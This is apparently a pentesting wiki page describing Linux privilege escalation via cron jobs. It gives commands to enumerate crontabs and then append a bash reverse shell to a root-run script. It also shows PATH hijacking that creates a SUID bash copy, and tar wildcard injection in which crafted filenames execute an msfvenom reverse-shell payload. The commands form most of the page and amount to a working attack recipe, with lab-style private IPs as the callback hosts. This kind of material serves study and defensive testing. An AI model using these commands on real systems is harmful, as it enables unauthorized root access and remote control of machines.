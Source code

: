 # cron/crontab abuse

## Crontab <a href="#top" id="top"></a>

#### cron or crontab is a unix job scheduler tool. a best friend for system administrators and when misconfigured, the best chance for an attacker to gain root access.  cron instructions usually consist of simple commands like a regular rsync command or a log cleaner one-liner script.but it gets real interesting when we find a path for a script to run as sudoer or root user in the crontab entries.if we are lucky enough to have an insecure file permission we can use it to escalate our privileges.  In order to leverage insecure file permissions, we must locate an executable file that not only allows us write access but also runs at an elevated privilege level. On a Linux system, the cron time based job scheduler is a prime target, as system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.



#### for example look for cron jobs with the following commands:   `grep "CRON" /var/log/cron.log >>> works best for unprivileged users`  `crontab -l`  `ls -alh /var/spool/cron`  `ls -al /etc/ | grep cron`  `ls -al /etc/cron*`  `cat /etc/cron*`  `cat /etc/at.allow`  `cat /etc/at.deny`  `cat /etc/cron.allow`  `cat /etc/cron.deny`  `cat /etc/crontab`  `cat /etc/anacrontab`  `cat /var/spool/cron/crontabs/root`

![](../../../.gitbook/assets/cron1.png)

when we find a file we check the permissions and content

![](../../../.gitbook/assets/cron2.png)



greate, we have read/write access to a file that is executed by root user every minute.the rest is history: we add a reverse shell one-liner to the file and setup a listener and wait for cron to run the script.



#### ``  `echo "bash -i >& /dev/tcp/192.168.56.1/8080 0>&1" >> /usr/local/bin/overwrite.sh` ``

![](../../../.gitbook/assets/cron3.png)

## PATH Environment Variable

\
&#x20;The crontab PATH environment variable is by default set to /usr/bin:/bin The PATH variable can be overwritten in the crontab file. If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.\
\
&#x20;View the contents of the system-wide crontab:\


#### &#x20;`cat /etc/crontab`

&#x20;Note that the /home/user directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path.\


![](../../../.gitbook/assets/cron4.png)

so we have full access to our home path which is also the PATH variable in crontab so we can create a file with the same name in our home directory and the cronjob will execute it.

![](../../../.gitbook/assets/cron5.png)

we can also make a copy of /bin/bash to have a root shell without spawning a new tty:

#### ``  `nano /home/user/overwrite.sh`  `#!/bin/bash`  `cp /bin/bash /tmp/rootbash`  `chmod +s /tmp/rootbash`

#### &#x20; Once the /tmp/rootbash file is created, execute it (with -p to preserve the effective UID) to gain a root shell: 

#### `/tmp/rootbash -p`



![](../../../.gitbook/assets/cron6.png)

## Wildcards

\
&#x20;Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names. The following commands should show how this works:\
\


#### &#x20;`ls *`  `touch ./-l`  `ls *`



![](../../../.gitbook/assets/w1.png)

Filenames are not simply restricted to simple options like -h or --help.\
&#x20;In fact we can create filenames that match complex options:\


#### &#x20;`--option=key=value`



&#x20;[GTFOBins](https://gtfobins.github.io/#) can help determine whether a command has command line options which will be useful for our purposes.\
\
\
&#x20;View the contents of the system-wide crontab:\


#### &#x20;`cat /etc/crontab`

![](../../../.gitbook/assets/w2.png)

View the contents of the /usr/local/bin/compress.sh file:\
\


#### &#x20;`$ cat /usr/local/bin/compress.sh`  `#!/bin/sh`  `cd /home/user`  `tar czf /tmp/backup.tar.gz *` `` ``

&#x20;Note that the tar command is run with a wildcard in the /home/user directory.\
&#x20;GTFOBins shows that tar has command line options. which can be used to run other commands as part of a checkpoint feature.

![](../../../.gitbook/assets/w3.png)

Use msfvenom to create a reverse shell ELF payload:\


#### &#x20;`msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=6666 -f elf -o shell.elf`

\
\
&#x20;Copy the file to the /home/user directory on the remote host. Create two files in the /home/user directory:\
\


#### &#x20;`touch /home/user/--checkpoint=1`  `touch /home/user/--checkpoint-action=exec=shell.elf` `` ``

&#x20;Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught.

![](../../../.gitbook/assets/w4.png)
